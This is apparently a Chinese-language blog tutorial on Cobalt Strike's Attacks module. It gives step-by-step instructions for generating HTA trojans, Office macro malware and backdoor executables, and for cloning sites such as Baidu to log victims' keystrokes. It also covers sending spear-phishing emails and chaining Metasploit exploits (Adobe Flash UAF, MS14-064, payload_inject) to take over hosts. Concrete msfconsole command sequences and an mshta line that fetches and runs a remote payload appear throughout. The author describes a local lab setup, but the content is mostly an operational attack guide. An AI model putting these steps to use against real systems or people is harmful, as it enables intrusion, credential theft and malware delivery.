# Attacks 模块简介
# packages 模块

HTML Application:
生成一个恶意 HTML Application 木马，后缀格式为 .hta。通过 HTML 调用其他语言的应用组件进行攻击，提供了可执行文件、PowerShell、VBA 三种方法
MS Office Macro:
生成 office 宏病毒文件；
Payload Generator:
生成各种语言版本的 payload，可以生成基于 C、C#、COM Scriptlet、Java、Perl、PowerShell、Python、Ruby、VBA 等的 payload
Windows Executable:
生成 32 位或 64 位的 exe 和基于服务的 exe、DLL 等后门程序
Windows Executable(S)
用于生成一个 exe 可执行文件，其中包含 Beacon 的完整 payload，不需要阶段性的请求。
与 Windows Executable 模块相比，该模块额外提供了代理设置，以便在较为苛刻的环境中进行渗透测试。该模块还支持 powershell 脚本，可用于将 Stageless Payload 注入内存。
# Web Drive-by 网站钓鱼攻击
点击中间的 Attacks——> Web Drive-by（网站钓鱼攻击）

Manage 对开启的 web 服务进行管理；
Clone Site 克隆网站，可以记录受害者提交的数据；
Host File 提供一个文件下载，可以修改 Mime 信息；Host File 可以配合 DNS 欺骗实现挂马效果使用
Scripted Web Delivery 基于 Web 的攻击测试脚本，自动生成可执行的 payload ;
Signed Applet Attack 启动一个 Web 服务以提供自签名 Java Applet 的运行环境；
Smart Applet Attack 自动检测 Java 版本并 l 利用已知的 exploits 绕过 security；
System Profiler 用来获取一些系统信息，比如系统版本，Flash 版本，浏览器版本等。
Spear Phish 用来邮件钓鱼的模块
# CobaltStrike Attacks 模块的利用方法
# MSF 与 CobaltStrike 结合获取 meterpreter
在 CobaltStrike 中的 Listenter 中有一些 Foreign 的载荷（payload），常用于于 MSF 结合
创建 Beacon Listener
CobaltStrike -> Listener -> add -> payload 选择 Foregin (windows/foregin/reverse_http) -> msf 攻击机 ip/msf 监听端口 (192.168.199.145:4444)
在攻击机上进行 msf 监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.199.145
set lport 4444
run/exploit
生成攻击文件在目标机器运行既可

# 利用 web 服务，远程加载文件，获取 beacon
利用 Attack -> packeg 中的 HTML Application
一个 HTML Application （HTML 应用）是一个使用 HTML 和一个 Internet 浏览器支持的脚本语言编写的 Windows 程序。该程序包生成一个 HTML 应用，该应用运行一个 Cobalt Strike payload 。你可以选择一个 HTML 应用，此 HTML 应用使得一个可执行文件落地在磁盘上并运行它。选择 powershell 选项来得到一个 HTML 应用，该应用应该使用 Powershell 来运行一个 payload
新建一个 Linsenter
CobaltStrike -> Listener -> add -> payload 选择 (windows/beacon_http/reverse_http)
创建一个.hta 的恶意文件
Attacks -> Package -> HTML Application -> 选择 Listener -> method 选择 powershell -> Generate
加载本地文件到服务端，进行 web 服务
Attacks -> Web Drive-by -> Host File -> File 选择本地生成的.hta 文件
目标机 cmd.exe 中运行以下命令（白名单文件 mshta.exe 无免杀，在加载.hta 文件时可被多种杀软查杀)(mshta.exe 是微软 Windows 操作系统相关程序，用于执行.HTA 文件，或在批处理中结合其他语言的代码；如：mshta javascript，可用于运行一个 HTML 网页而不会出现安全警告。)
mshta http://ip + 端口 /download/file.ext
靶机上线。

# MS Office Macro 宏获取 beacon
利用 Attack -> Package -> MS office Macro
MS office Macro 模块提供一个 Microsoft Office 的宏文件，并提供嵌入 Microsoft World 或 Microsoft Excel 的说明
新建一个 Linsenter
CobaltStrike -> Listener -> add -> payload 选择 (windows/beacon_http/reverse_http)
利用 MS Office Macro 模块获取宏
Attack -> Package -> MS office Macr
将获取的宏嵌入到文档当中
Microsoft World 文档 -> 视图 -> 宏 -> 宏名任意 -> 创建 -> Microsoft Visual Basic for Application 控制台 -> 将生成的宏复制到代码区 -> 保存

靶机上线。

# 制作钓鱼网址盗取用户输入信息
利用 Attack -> Web Drive-by -> Clone Site 制作钓鱼网址
在向目标发送漏洞利用程序之前，进行伪装会有所帮助。 Cobalt Strike 的网站克隆工具可以帮助此目标。网站克隆工具制作一个网站的本地的复制，使用一些增加的代码来修复连接和图像这样它们可以如预期一样工作。
建立 Linstener
CobaltStrike -> Listener -> add -> payload 选择 (windows/beacon_http/reverse_http)
利用 Clone Site 获取钓鱼网址
Attack -> Web Drive-by -> Clone Site -> Clone Url (被克隆网址) -> 勾选 Log Keystroken on Cloned site

利用网站日志（web Log）查看被钓鱼方输入的信息
View -> Web Log
如下为被克隆网站

# 简单 EXE 等可执行文件上线目标主机
利用 Attack -> Packages -> Windows Executable/(s)
该程序包含一个 Windows 可执行 Artifact ，用于传送一个 Payload Stager 。这个程序包为使用者提供了多种输出选项。 Windows Service EXE 是一个 Windows 可执行文件，可响应 Service Control Manager 命令。使用者可以使用这个可执行文件来作为使用 SC 命令行的 Windows 服务的调用程序，或使用 Metasploit 框架的 PsExec 模块生成一个自定义的可执行文件。
普通的 EXE 和服务器启动调用的 EXE 是由区别的，利用 Windows Service EXE 生成的 EXE 才能用来作为服务自启动的 EXE，利用 Cobalt Strike 中 Windows EXE 生成的 EXE 不能作为服务自启动的 EXE 程序。
创建一个监听
CobaltStrike -> Listener -> add -> payload 选择 (windows/beacon_http/reverse_http)
生成可执行程序
Attack -> Packages -> windows Executable/(s)
目标机器运行可执行文件，上线目标主机

生成 Powershell 版的需要在目标主机的 Powershell 控制台运行该 ps1 脚本
生成 dll 文件，需要在目标主机加载
# 利用 MSF 结合 Cobalt Strike 获取 CS beacon
在 0x01 部分，我们知道 Cobalt Strike 可以与 MSF 配合获取 meterpreter，当然，二者也可以相互配合获取 Beacon。
你可以使用 MSF 中的 exploit/windows/local/payload_inject 模块将 MSF 获取的 meterpreter 传送给 Cobalt Strike
Cobalt Strike 新建一个 Listener
CobaltStrike -> Listener -> add -> payload 选择 (windows/beacon_http/reverse_http)
MSF 获取目标 meterpreter
将 meterpreter 利用 exploit/windows/local/payload_inject 模块传送给 CS
background
use exploit/windows/local/payload_inject
设定 CS 的 ip 和监听端口
set LHOST CSip
set LPORT CS Listener 监听端口
set disablepayloadhandler true

设定传送的 session
set session id
session id 可输入 sessions 查看

运行即可

# Payload Generator (Payload 生成器)
该模块可以生成 n 中语言的后门 Payload，包括 C,C#,Python,Java,Perl,Powershell 脚本，Powershell 命令，Ruby,Raw，免杀框架 Veli 中的 shellcode 等等... 这是 CS 的一个很大的迷人之处。
attack -> Packages -> payload Generator

# CS 发送钓鱼邮件
CS 能生成 Office 宏，发现生成的该文件很容易被杀软监测出来，并处理掉，加上它的局限性，在外网实际中意义不大，在内网用效果可能还好。主要是思路。
实验环境
虚拟机搭建的邮件服务器地址：192.168.199.133
Cobalt strike 服务器地址：192.168.199.145
Kali 虚拟机地址：192.168.199.145
这里我们应用到一个 flash 插件漏洞的 payloads： adobe_flash_hacking_team_uaf
通过 Cobalt Strike 结合 metasploit 进行实验，如下：
通过 kali 启用 metasploit。
配置：
use exploit/multi/browser/adobe_flash_hacking_team_uaf | |
set payload windows/meterpreter/reverse_http | |
set lhost 192.168.199.145 | |
set lport 80 | |
set disablepayloadhandler true | |
set prependmigrate true | |
exploit |


执行后如图所示，会得到一个利用地址，记录该地址：
这里使用
Local IP: http://192.168.199.145:8080/I2bDeFpXx21H
接下来为了方便钓鱼邮件的内容伪造的真实，我们通过 cobalt strike 克隆一个网站。
进入 Web-Drive-by 选项选择 Clone Site。
这里提醒下，如果在克隆模块克隆的是 HTTPS 的页面，需要在攻击方加载 SSL 哦，不然没法记录或者执行！(踩坑)
其中 attack 就是我们 metasploit 中生成的地址链接

克隆成功

克隆出来的百度

记录的键盘操作

克隆出来的百度网页源代码

利用 flash 插件漏洞生成的一个克隆链接成功。
现在我们进行邮件伪造。
kali 下创建目标清单 targets.txt
注意邮箱和姓名要用 TAB 键隔开，可以是多个邮件地址，每一行一个邮件地址。

创建一个钓鱼模板，可以直接下载一个 eml 文件来使用，这个最好还是逼真一点好。
配置完毕

发送邮件

邮件发送成功，如果客户端存在 flash 漏洞，等待点击邮件模板里的链接即可跳转到我们的 http://192.168.199.145/search 地址，并通过 flash 漏洞，获取到该终端的权限，该终端会成功上线。
注意：因为邮件服务器和 CS 服务器都是我在本地虚拟机搭建的，不在公网上的。所以暂时未模拟到真实邮件。
# Metasploit 溢出代码与 Cobalt Strik 配合钓鱼
拿的是一个针对 XP 或者以下系统，利用 MS14_064 利用 IE 执行远控木马。 主要还是思路。
use exploit/windows/browser/ms14_064_ole_code_execution | |
set srvhost 192.168.199.145 | |
set SRVPORT 6666 | |
set payload windows/meterpreter/reverse_tcp | |
set lhost 192.168.199.139 | |
exploit |
生成神秘代码！！

我们再克隆一下百度，放入 Attack

这里就不勾选键盘记录了，因为直接能控制对方了！

生成了网站链接，至于如何让目标访问这个网站，方法还是很多的，比如给目标来一个 ARP+DNS 欺骗，更改 DNS 解析包，强行让目标访问等。
当目标一访问，这边就上线了。

不过这 IE 确实不行，我复现的这次 IE 直接裂开了……

网上找了个图，凑合着看吧。

通过控制，继续横向渗透即可！
# 总结
总结下思路，就是各种模块之间的配合进行简单的钓鱼，知道这些思路后，还可以和别的钓鱼工具配合，或者是别的方法融合！
# 强化 Cobalt strike
Cortana 是可以用于 Cobalt strike 以及 Armitage 的脚本，通过加载 cortana 可以向 Cobalt strike 中导入新的第三方工具，最大的好处就是各种第三方工具都进行了可视化，你可以通过点击而不是通过命令行来完成一些操作，当然，通过定制 cortana 脚本，你可以在渗透测试过程中很方便的做一些批量操作或者自动化攻击等。
扩展：
Aggressor Script 是 Cobalt Strike 3.0 版及更高版本中内置的脚本语言。Aggresor 脚本允许您修改和扩展 Cobalt Strike 客户端。
Aggressor Script 是 Armitage 中开源脚本引擎 Cortana 的精神继任者。Cortana 是通过 DARPA 的 “网络快速通道” 计划的合同而成为可能的。Cortana 允许其用户通过 Armitage 的团队服务器扩展 Armitage 并控制 Metasploit 框架及其功能。Cobalt Strike 3.0 是对 Cobalt Strike（无 Armitage）基础的完全重写。这一更改提供了重新审视 Cobalt Strike 脚本并围绕 Cobalt Strike 功能构建内容的机会。这项工作的结果是 Aggressor Script。
也就是说 Cobalt Strike 3.0 版本之后是 Aggressor。
下载 cortana-scripts：
git clone https://github.com/rsmudge/cortana-scripts.git
# Beef
Beef 是一款针对浏览器的渗透测试工具，而 beef_strick 则是可以在 Cobalt strike 及 Armitage 中加载 Beef 的一个 Cortana 脚本，要使用此脚本，首先要先下载安装 msf 的 beef 插件。
git clone https://github.com/xntrik/beefmetasploitplugin.git
cd beefmetasploitplugin
cp -R lib/* /usr/share/metasploit-framework/lib/
gem install hpricot
gem install json
安装依赖库，执行：
gem install hpricot
gem install json
